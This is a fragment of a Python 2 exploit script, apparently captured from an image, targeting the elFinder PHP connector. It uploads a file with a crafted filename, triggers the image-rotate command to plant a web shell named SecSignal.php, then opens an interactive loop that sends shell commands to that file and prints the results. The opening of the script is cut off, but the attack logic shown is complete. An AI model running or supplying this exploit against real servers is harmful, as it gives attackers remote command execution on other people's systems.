 ```python

    if len(sys.argv) != 2:

        print "Usage: python exploit.py [URL]"

        sys.exit(0)


def upload(url, payload):

    files = {'upload[]': (payload, open('SecSignal.jpg', 'rb'))}

    data = {"reqid" : "1693222c439f4", "cmd" : "upload", "target" : "l1_Lw", "mtime[]" : "1497726174"}

    r = requests.post("%s/php/connector.minimal.php" % url, files=files, data=data)

    j = json.loads(r.text)

    return j['added'][0]['hash']


def imgRotate(url, hash):

    r = requests.get("%s/php/connector.minimal.php?target=%s&width=539&height=960&degree=180&quality=100&bg=&mode=rotate&cmd=resize&reqid=169323550af10c" % (url, hash))

    return r.text


def shell(url):

    r = requests.get("%s/php/SecSignal.php" % url)

    if r.status_code == 200:

       print "[+] Pwned! :)"

       print "[+] Getting the shell..."

       while 1:

           try:

               input = raw_input("$ ")

               r = requests.get("%s/php/SecSignal.php?c=%s" % (url, input))

               print r.text

           except KeyboardInterrupt:

               sys.exit("\nBye kaker!")

    else:

        print "[*] The site seems not to be vulnerable :("


def main():

    usage()

```
